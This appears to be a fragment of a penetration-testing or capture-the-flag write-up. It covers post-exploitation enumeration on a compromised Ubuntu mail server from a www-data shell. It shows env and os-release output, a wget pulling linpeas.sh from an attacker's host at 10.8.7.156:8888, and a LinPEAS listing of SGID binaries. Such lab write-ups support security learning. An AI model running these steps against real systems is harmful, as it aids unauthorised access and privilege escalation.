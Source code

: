 env
```bash
www-data@mail01:/$ env
env
PWD=/
SHLVL=2
LC_CTYPE=C.UTF-8
_=/usr/bin/env
```

os
```sh
www-data@mail01:/$ cat /etc/os-release
cat /etc/os-release
PRETTY_NAME="Ubuntu 22.04.2 LTS"
NAME="Ubuntu"
VERSION_ID="22.04"
VERSION="22.04.2 LTS (Jammy Jellyfish)"
VERSION_CODENAME=jammy
ID=ubuntu
ID_LIKE=debian
HOME_URL="https://www.ubuntu.com/"
SUPPORT_URL="https://help.ubuntu.com/"
BUG_REPORT_URL="https://bugs.launchpad.net/ubuntu/"
PRIVACY_POLICY_URL="https://www.ubuntu.com/legal/terms-and-policies/privacy-policy"
UBUNTU_CODENAME=jammy

```
## linpeas.sh
```sh
wget http://10.8.7.156:8888/linpeas.sh
```

```bash
╔══════════╣ SGID
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#sudo-and-suid                                                                                                                                             
-rwxr-sr-x 1 root shadow 83K Nov 29  2022 /snap/core20/1891/usr/bin/chage                                                                                                                                                                   
-rwxr-sr-x 1 root shadow 31K Nov 29  2022 /snap/core20/1891/usr/bin/expiry
-rwxr-sr-x 1 root systemd-timesync 343K Mar 30  2022 /snap/core20/1891/usr/bin/ssh-agent
-rwxr-sr-x 1 root tty 35K Feb  7  2022 /snap/core20/1891/usr/bin/wall
-rwxr-sr-x 1 root shadow 43K Feb  2  2023 /snap/core20/1891/usr/sbin/pam_extrausers_chkpwd
-rwxr-sr-x 1 root shadow 43K Feb  2  2023 /snap/core20/1891/usr/sbin/unix_chkpwd
-rwxr-sr-x 1 root shadow 83K Nov 29  2022 /snap/core20/1822/usr/bin/chage
-rwxr-sr-x 1 root shadow 31K Nov 29  2022 /snap/core20/1822/usr/bin/expiry
-rwxr-sr-x 1 root systemd-timesync 343K Mar 30  2022 /snap/core20/1822/usr/bin/ssh-agent
-rwxr-sr-x 1 root tty 35K Feb  7  2022 /snap/core20/1822/usr/bin/wall
-rwxr-sr-x 1 root shadow 43K Jan 24  2023 /snap/core20/1822/usr/sbin/pam_extrausers_chkpwd
-rwxr-sr-x 1 root shadow 43K Jan 24  2023 /snap/core20/1822/usr/sbin/unix_chkpwd
-rwxr-sr-x 1 root shadow 23K Feb  2  2023 /usr/sbin/pam_extrausers_chkpwd
-rwxr-sr-x 1 root shadow 27K Feb  2  2023 /usr/sbin/unix_chkpwd
-r-xr-sr-x 1 root postdrop 23K Apr 10  2023 /usr/sbin/postdrop
-r-xr-sr-x 1 root postdrop 23K Apr 10  2023 /usr/sbin/postqueue
-rwxr-sr-x 1 root crontab 39K Mar 23  2022 /usr/bin/crontab
-rwxr-sr-x 1 root tty 23K Feb 21  2022 /usr/bin/wall
-rwxr-sr-x 1 root shadow 71K Nov 24  2022 /usr/bin/chage
-rwxr-sr-x 1 root tty 23K Feb 21  2022 /usr/bin/write.ul (Unknown SGID binary)
-rwxr-sr-x 1 root _ssh 287K Nov 23  2022 /usr/bin/ssh-agent
-rwxr-sr-x 1 root mail 15K Dec  1  2021 /usr/bin/mlock
-rwxr-sr-x 1 root shadow 23K Nov 24  2022 /usr/bin/expiry
-rwxr-sr-x 1 root utmp 15K Mar 24  2022 /usr/lib/x86_64-linux-gnu/utempter/utempter

```